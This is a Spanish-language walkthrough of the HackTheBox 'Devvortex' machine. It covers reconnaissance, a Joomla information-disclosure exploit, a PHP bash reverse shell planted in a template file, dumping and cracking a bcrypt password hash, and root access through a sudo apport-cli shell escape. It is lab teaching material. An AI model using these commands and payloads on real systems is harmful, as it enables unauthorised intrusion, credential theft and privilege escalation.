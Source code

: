 ```yaml
---
title: HackTheBox-Devvortex Easy
published: true
---
```

Esta es una máquina fácil de la plataforma de HackTheBox, en la cual vamos a obtener **RCE** a través de la explotación de el CMS **Joomla**.
Crackearemos una contraseña en hash **bcrypt** para escalar privilegios, y ganaremos acceso root gracias a la capacidad de ejecutar el binario **apport-cli** 
con privilegio de superusuario.

# Reconocimiento
Empezamos realizando un escaneo de puertos con el comando: 
```
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.242 -oN puertos
```
![puertos](/assets/devvortex/puertos.png)

Los puertos abiertos son:
- 22
- 80

Una vez que sabemos los puertos, hacemos otro escaneo para ver los servicios que corren en los mismos:

```
nmap -p22,80 -sCV 10.10.11.242 -oN services
```
![servicios](/assets/devvortex/servicios.png)

Tenemos el puerto 22(ssh) y el 80(http). Lo que significa que hay una página web.
También nos reporta un dominio `http://devvortex.htb`
Inicialmente la página web no tienen nada interesante y tampo es funcional, por lo que vamos a realizar un descubrimiento de directorios:

```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://devvortex.htb
```
Desafortunadamente no encontraos ningún directorio importante por lo que, en vez de descubrir directorios, vamos a tratar de descubrir subdominios:

```
wfuzz -c --hc 404 --hw 10 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u http://devvortex.htb -H 'Host: FUZZ.devvortex.htb'
```
![subdominios](/assets/devvortex/subdominio.png)

El subdominio `dev` tiene buena pinta. Parece que es el subdominio de desarrollo de la página web. Si miramos el `wappalyzer`(lo podéis encontrar en [wappalyzer](https://addons.mozilla.org/es/firefox/addon/wappalyzer/)) vemos que está utilizando Joomla.
Joomla es un **CMS** (Content Management System) que suele ser usado en desarrollo web.
Si miramos en el archivo **robots.txt** vemos que hay una ruta /administrator, en la cual hay un panel de login.

![robotstxt](/assets/devvortex/robotstxt.png)

![login](/assets/devvortex/login.png)

Para tratar de enumerar la versión de Joomla vamos a usar la herraamienta **droopescan**.

![droopescan](/assets/devvortex/droopescan.png)

La propia herramienta no logra encontrar la versión de joomla pero, nos pasa un archivo que podría contener información importante: **/administrator/manifests/files/joomla.xml**
En este archivo si que vemos la versión de joomla:

![joomlaxml](/assets/devvortex/joomlaxml.png)

Parece ser que la versión del CMS es la 4.2.6, la cual tiene una vulnerabilidad de Information Disclousure.

# Joomla Information Disclousure
Para explotar esta vulnerabilidad vamos a usar [el exploit de Acceis](https://github.com/Acceis/exploit-CVE-2023-23752). 
Este exploit nos reporta el usuario y contraseña del panel de login que hemos encontrado:

![info](/assets/devvortex/exploit.png)

Con estas credenciales accedemos al panel de administración de Joomla.
Ahora, vamos a obtener **RCE** a la máquina mediante la inyección de código php malicioso en uno de los archivos del template de Joomla:

# Joomla RCE modificando template
Dentro de la interfaz, tenemos que dirigirnos a **System -> Administrator Templates -> Atum Details and Files -> error.php** como se muestra en las siguientes imágenes:

![php1](/assets/devvortex/php1.png)

![php2](/assets/devvortex/php2.png)

![php3](/assets/devvortex/php3.png)

![php4](/assets/devvortex/php4.png)

Una vez estemos en el archivo **error.php**, introducimos el siguiente código php:

```php
exec("/bin/bash -c 'bash -i >& /dev/tcp/nuestraip/puerto 0>&1'");
```
Llegados a este punto, simplemente nos ponemos en escucha con netcat por el puerto que hayamos puesto en el php(en este caso el 443):

```
nc -nlvp 443
```
y realizamos una petición al archivo error.php, ya sea por `curl` o mediante el navegador.

Con esto ya tenemos ejecución remota de comandos. Pero antes de pasar a la escalada, vamos a convertir la consola en una shell completamente interactiva:

```
script /dev/null -c bash
^Z
stty raw -echo; fg
reset xterm
export TERM=xterm
```
Ahora sí, pasamos a la escalada.

# Escalada de privilegios
Para empezar, como tenemos las credenciales de la base de datos SQL vamos a conectarnos a ella mediante la terminal:

```
mysql -u lewis -p
contraseña
show databases;
use joomla;
select * from sd4fg_users;
```
Con esto vemos la contraseña encriptada del usuario logan:

![hash](/assets/devvortex/hash.png)

Parece que el hash es `bcrypt`, así que vamos a tratar de crackearlo con john mediante fuerza bruta:

```
john --format=bcrypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
Al hacer esto obtenemos la contraseña en texto claro, que es `tequieromucho`.

Llegados a este punto, ya solo queda convertirnos en usuario root.

# Pwned!

Vamos a empezar ejecutando **sudo -l** para ver si hay algún binario que podamos ejecutar con privilegio root.
Hay uno, `/usr/bin/apport-cli`.
Este binario lo vamos a ejecutar con el siguiente comando:
```
sudo /usr/bin/apport-cli -f 
```
Al ejecutar el binario, hay una serie de inputs en los que tenemos que seleccionar una opción.

En el primer input seleccionamos la primera opción, después la segunda opción, y finalmente seleccionamos **V(View Report)**. Al seleccionar esta última opción abre una terminal de `vim`.

Llegados a este punto, en la terminal de vim escribimos **!/bin/bash**, como se ve en la imagen:

![bin4](/assets/devvortex/bin4.png)

Ahora simplemente con presionar la tecla **Intro**, ya tenemos una consola como `superusuario`

